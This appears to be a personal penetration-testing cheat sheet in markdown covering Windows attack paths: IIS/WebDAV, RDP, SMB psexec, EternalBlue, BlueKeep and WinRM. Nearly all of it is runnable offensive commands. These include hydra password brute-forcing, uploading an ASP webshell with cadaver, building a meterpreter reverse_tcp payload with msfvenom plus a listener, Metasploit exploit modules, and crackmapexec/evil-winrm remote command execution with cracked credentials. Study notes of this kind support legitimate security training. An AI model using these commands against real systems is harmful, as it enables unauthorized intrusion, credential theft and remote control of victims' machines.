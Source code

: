 # Windows Vulnerabilities

--------------------------------------------------------------------

## Micorosoft IIS

> .asp

> .aspx

> .config

> .php

```

```

--------------------------------------------------------------------

## WebDAV

> To connect to webDAV we need credentials

```
$ nmap scan -sV -sC

$ nmap -sV -p80 —script=http-enum

$ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 0.0.0.0 http-get /webdav/
```


> tool davtest (scan, authenticate and exploit)
```
$ davtest -auth bob:password_123321 -url http://0.0.0.0/webdav
```

> tool cadaver (manipulating)
```
$ cadaver http://0.0.0.0/webdav
> username:
> password:
> put /usr/share/webshells/asp/webshell.asp
> dir C:\

$ ls -la /usr/share/webshells/asp (in this case asp is the one we can execute so)
```
> Metasploit
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f asp > shell.asp

upload it with cadaver

multi/handler

set payload windows/meterpreter/reverse_tcp (the same in the payload)

run the payload and wait on the handler

exploit/windows/iis/iis_webdav_upload_asp

set username and password
```

--------------------------------------------------------------------

### RDP: (bruteforce) 3389 normally

```
$ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit.framework/data/wordlists/unix_passwords.txt rdp://0.0.0.0 -s 3333 
> wait 1 minute to connect with the password
> xfreerdp /u: /p: /v:

auxiliary/scanner/rdp/rdp_scanner
> set strange port
```

--------------------------------------------------------------------

### Psexec: (bruteforce) smb

```
exploit/windows/smb/psexec

set windows/x64/meterpreter/reverse_tcp

we can use the hash obtained before or the password obtained by smb_login
```

--------------------------------------------------------------------

### EternalBlue: smb

```
$ nmap -p445 —script smb-vuln-ms17-010 0.0.0.0 
```

--------------------------------------------------------------------

### BlueKeep: (rdp) execute code

```
auxiliary/scanner/rdp/cve_2019_0708_bluekeep 

> use this first to check wether it is vulnerable and later use the exploit

auxiliary/scanner/rdp/cve_2019_0708_bluekeep_rce

set target (windows version)
```

--------------------------------------------------------------------

### WinRM:
> winrm = remote management protocol can be used to facilitate remote acces with windows systems (http = 5985, https = 5986)

```
$ crackmapexec winrm 0.0.0.0 -u administrator /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

$ crackmapexec winrm 0.0.0.0 -u administrator -p tinkerbell -x “whoami”

$ evil-winrm.rb -u administrator -p ‘tinkerbell’ -i 0.0.0.0

exploit/windows/winrm/winrm_script_exec
> set Force_vns true
```
